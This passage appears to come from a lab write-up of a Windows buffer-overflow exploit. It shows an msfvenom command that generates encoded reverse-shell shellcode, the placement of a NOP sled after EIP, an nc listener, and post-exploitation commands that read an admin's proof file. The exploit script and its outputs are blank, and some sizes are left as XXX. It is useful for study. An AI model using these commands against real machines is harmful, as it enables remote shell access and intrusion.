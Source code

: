 ```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00" > shellcode.txt

```

Earlier, i determined the maximum space i have for shellcode is XXX bytes, thats within the range of XXX. This payload is XXX bytes, that should fit.


#### Getting a Reverse Shell on the debugging machine

Added the shellcode to the buffer in the next version of my script, after the EIP. Before placing the shellcode i added 16 nop commands, just in case.

**6-exploit.py**

```py

```

Set up a listener:

```sh
nc -nvlp 443  

```

Run the program:

```sh
$ python3 6-exploit.py   

```

The program crashed, but not before it ran the code. the result :

```sh

```


Got a shell back on the listener! That means the exploit is successful.

### Getting a Reverse Shell on the target machine


```sh
nc -nvlp 443  

```

Run the program:

```sh
$ python3 6-exploit.py   

```


```sh
$ whoami && hostname && type Users\admin\Desktop\proof.txt
```




